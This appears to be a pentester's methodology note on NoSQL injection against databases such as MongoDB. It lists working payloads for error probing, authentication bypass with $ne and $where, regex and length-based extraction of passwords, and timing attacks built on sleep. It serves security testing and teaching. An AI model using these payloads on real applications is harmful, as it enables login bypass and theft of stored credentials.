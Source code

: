 ```yaml
---
title: "NoSQLi"
layout: notes
tags:
  - webapp
  - methodology
  - nosqli
  - FI_parameters
  - FI_user-input
  - FI_http-headers
  - Co_data-manipulation
  - Co_sensitive-info-disclosure
  - Co_dos
  - Co_rce
---
```

## Summary

SQL happens to not be the only database management language in use. A common alternative is NoSQL, which as the name might imply, can be languages and structures other than SQL. MongoDB is a big name allowing for JSON, XML, SQL, and more. Due to the flexibility, lack of restrictions and rigid schema, NoSQL can take more enumeration than traditional SQL while coming with its fair share of quick wins. The testing is close to [[SQLi - MySQL Injection]] with a different syntax depending on the database being attacked. Where NoSQLi might differ is its use of operators, allowing for more logic based exfiltration and bypasses than traditional SQLi.

## Methodology

When looking for NoSQLi vulnerabilities ask/try the following:
- [ ] **What NoSQL database is being used? (MongoDB, CouchDB, etc)**
- [ ] try to induce an error with `'` or `"`
	- [ ] if a character can induce an error escape it and check if the query properly runs: `\'`
	- [ ] check for true `' && 1 && 'x` and false `' && 0 && 'x` statement differences
	- [ ] add a `'||1||'` as an or true bypass
- [ ] try commenting out the rest of the query by appending %00
- [ ] try to add another operator
	- [ ] in a field add `{"$ne":"null"}` in place of its data
	- [ ] as another element add `"$where":"1"`
	- [ ] try changing to POST with json body data
- [ ] try for a timing based attack `{"$where": "sleep(5000)"}`

IF NoSQLi IS FOUND
- [ ] guess fields in the current database: `admin' && this.username!='`
- [ ] fuzz fields with `"$where":"Object.keys(this)[0].match('^.{0}a.*')"`
	- [ ] fuzz things with `"$where":"this.password.match('^.{0}a.*')"`
- [ ] get lengths of fields or queries with `administrator' && this.password.length<'9`
- [ ] try to use `$regex` similar to LIKE to fuzz data `{"username":"admin","password":{"$regex":"^a*"}}`

## Capabilities

Data manipulation
Sensitive Data Exposure
Denial of Service
Remote Code Execution

## Found In

Parameters
User Input
HTTP Headers

## Tools/Examples

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)

Timing Based Attacks
```
admin'+function(x){var waitTill = new Date(new Date().getTime() + 5000);while((x.password[0]==="a") && waitTill > new Date()){};}(this)+'
admin'+function(x){if(x.password[0]==="a"){sleep(5000)};}(this)+'
```




